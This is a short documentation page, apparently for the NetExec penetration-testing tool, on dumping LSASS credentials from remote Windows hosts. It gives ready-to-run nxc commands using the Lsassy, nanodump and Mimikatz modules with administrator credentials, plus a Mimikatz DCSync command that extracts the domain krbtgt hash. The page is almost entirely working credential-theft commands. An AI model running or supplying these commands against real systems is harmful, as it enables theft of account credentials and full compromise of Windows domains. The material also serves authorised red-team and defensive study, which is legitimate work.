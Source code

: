 # Dump LSASS

{% hint style="warning" %}
You need at least local admin privilege on the remote target, use option **--local-auth** if your user is a local account
{% endhint %}

### Using Lsassy

Using the module Lsassy from [@pixis ](https://twitter.com/HackAndDo)you can dump remotely the credentials

```
#~ nxc smb 192.168.255.131 -u administrator -p pass -M lsassy
```

### Using nanodump

Using the module nanodump you can dump remotely the credentials

```
#~ nxc smb 192.168.255.131 -u administrator -p pass -M nanodump
```

### Using Mimikatz (deprecated)

{% hint style="warning" %}
You need at least local admin privilege on the remote target, use option **--local-auth** if your user is a local account
{% endhint %}

Using the module Mimikatz, the powershell script Invoke-mimikatz.ps1 will be executed on the remote target

```
#~ nxc smb 192.168.255.131 -u administrator -p pass -M mimikatz
```

```
#~ nxc smb 192.168.255.131 -u Administrator -p pass -M mimikatz -o COMMAND='"lsadump::dcsync /domain:domain.local /user:krbtgt"
```

